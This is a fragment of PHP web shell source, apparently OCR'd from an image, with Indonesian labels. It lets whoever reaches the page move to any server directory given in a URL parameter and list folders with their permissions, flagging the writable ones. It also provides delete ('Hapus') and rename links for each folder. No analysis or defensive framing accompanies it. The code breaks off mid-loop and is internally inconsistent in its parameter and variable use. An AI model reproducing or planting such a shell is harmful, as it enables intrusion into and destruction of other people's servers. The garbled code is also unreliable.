    
    if (isset($_GET['keluar'])) {
        session_start(); session_destroy();
        header('location: ?');
    }
   
        if(isset($_GET['path'])){
            $path = $_GET['path'];
            chdir($path);
        }else{
            $path = getcwd();
        }
        $path = str_replace('\\','/',$path);
        $paths = explode('/',$path);
           
        foreach($paths as $id=>$pat){
            if($pat == '' && $id == 0){
                $a = true;
                echo '<a href="?dir=/">/</a>';
                continue;
            }
            if($pat == '') continue;
            echo '<a href="?dir=';
            for($i=0;$i<=$id;$i++){
                echo "$paths[$i]";
                if($i != $id) echo "/";
            }
            echo '">'.$pat.'</a>/';
        }
        $scandir = scandir($path);
        echo "&nbsp;&nbsp;[ ".w($dir, perms($dir))." ]";
        echo '<center><div id="tab"><table width="100%" border="0" cellpadding="3" cellspacing="1" align="center">
            <thead class="bg-info">
                <th>File/Folder</th>
                <th>Size</th>
                <th>Perizinan</th>
                <th>Action</th>
            </thead>';
           
        foreach($scandir as $dir){
            if(!is_dir($path.'/'.$dir) || $dir == '.' || $dir == '..') continue;
            echo '<tr>
                <td><i class="fa fa-folder"></i> <a href="?dir='.$path.'/'.$dir.'">'.$dir.'</a></td>
                <td><center>--</center></td>
                <td><center>';
                if(is_writable($path.'/'.$dir)) echo '<font color="#00ff00">';
                elseif(!is_readable($path.'/'.$dir)) echo '<font color="red">';
                echo perms($path.'/'.$dir);
                if(is_writable($path.'/'.$dir) || !is_readable($path.'/'.$dir)) echo '</font></center></td>
                <td><center><a href="?hapus_folder='.$path.'/'.$dir.'">Hapus</a>  <a href="?rename='.$path.'/'.$dir.'">Rename</a></center></td>
            ';
               